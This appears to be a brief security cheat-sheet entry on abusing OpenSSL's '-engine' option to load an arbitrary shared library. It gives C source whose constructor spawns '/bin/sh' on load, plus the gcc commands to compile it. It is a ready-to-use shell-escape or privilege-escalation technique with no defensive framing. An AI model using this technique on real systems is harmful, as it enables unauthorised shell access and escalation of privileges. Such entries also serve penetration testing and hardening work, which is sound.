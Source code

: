 # OpenSSL Library Load

**OpenSSL can be used to load and run arbitrary libraries (.so) like this:**

```
openssl req -engine ./lib.so
```

**To make the required shared library, compile this code:**

```
#include <unistd.h>

__attribute__((constructor))
static void init() {
    execl("/bin/sh", "sh", NULL);
}
```

**Compilation flags:**
```
gcc -fPIC -o openssl.o -c openssl.c
gcc -shared -o openssl.so -lcrypto openssl.o
```
